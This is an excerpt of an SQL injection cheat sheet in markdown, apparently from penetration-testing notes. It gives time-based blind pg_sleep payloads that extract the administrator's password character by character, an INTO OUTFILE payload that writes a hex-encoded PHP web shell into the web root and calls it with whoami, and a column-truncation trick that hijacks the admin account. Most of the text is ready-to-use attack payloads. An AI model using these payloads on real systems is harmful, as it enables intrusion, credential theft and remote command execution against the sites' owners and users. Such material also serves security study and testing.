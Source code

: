        Brute force password character

        ```
        '; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
        '; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,2,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
        ...
        '; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,8,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
        ```

<br />

## Write Files

- Write new php file. '0x3C3F...' is hex ( <?php system($_GET["cmd"]) ?> in here )
- Access to http://10.0.0.1/shell.php?cmd=whoami

```html
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E--
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E#
```

<br />

## Truncation Attack

```sh
# If the table shema is like the following...
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);


# -------------------------------------------------------

# POST request
POST /create-user HTTP/1.1
...

# Create another new "admin" with more than 64 characters. Btw, "+" means the spaces.
username=admin+++++++++++++++++++++++++++++++++++++++++++++++++++++++++random&password=password
# ---------------------------------------------------------

# Then, login with your new admin credential.
username=admin&password=password

# Or fetch the admin's information.
SELECT * FROM users WHERE username='admin';
# Return the values are the real admin's information.
username = admin
password = <REAL_ADMIN_PASSWORD>
```